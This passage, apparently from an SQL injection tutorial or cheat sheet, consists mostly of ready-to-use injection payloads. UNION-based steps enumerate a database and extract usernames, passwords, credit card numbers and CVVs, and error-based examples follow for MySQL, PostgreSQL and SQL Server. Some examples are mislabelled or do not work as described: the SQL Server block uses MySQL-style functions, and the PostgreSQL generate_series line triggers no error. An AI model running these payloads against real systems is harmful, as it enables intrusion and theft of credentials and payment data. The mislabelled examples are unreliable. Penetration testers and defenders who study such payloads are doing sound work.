 **Step-by-Step Exploitation:**
```sql
-- 1. Determine number of columns
1 ORDER BY 1--    ✓ (works)
1 ORDER BY 2--    ✓ (works)  
1 ORDER BY 3--    ✗ (error - 2 columns confirmed)

-- 2. Find injectable columns
1 UNION SELECT null,null--    ✓ (works)
1 UNION SELECT 'test',null--  ✓ (string in column 1)
1 UNION SELECT null,'test'--  ✓ (string in column 2)

-- 3. Extract database information
1 UNION SELECT @@version,@@datadir--
1 UNION SELECT schema_name,null FROM information_schema.schemata--
1 UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema='database_name'--
1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users'--

-- 4. Extract sensitive data
1 UNION SELECT username,password FROM users--
1 UNION SELECT credit_card,cvv FROM payments--
```

#### Error-Based SQL Injection
Exploits database error messages to extract information.

**MySQL Examples:**
```sql
-- ExtractValue function
1 AND extractvalue(1,concat(0x7e,(SELECT @@version),0x7e))--

-- UpdateXML function  
1 AND updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)--

-- Double query injection
1 AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT version()),FLOOR(RAND(0)*2)))--
```

**PostgreSQL Examples:**
```sql
-- Cast function
1 AND CAST((SELECT version()) AS int)--

-- Generate_series function
1 AND (SELECT * FROM generate_series(1,1000))--
```

**SQL Server Examples:**
```sql
-- Convert function
1 AND CONVERT(int,(SELECT @@version))--

-- XML functions
1 AND 1=(SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```
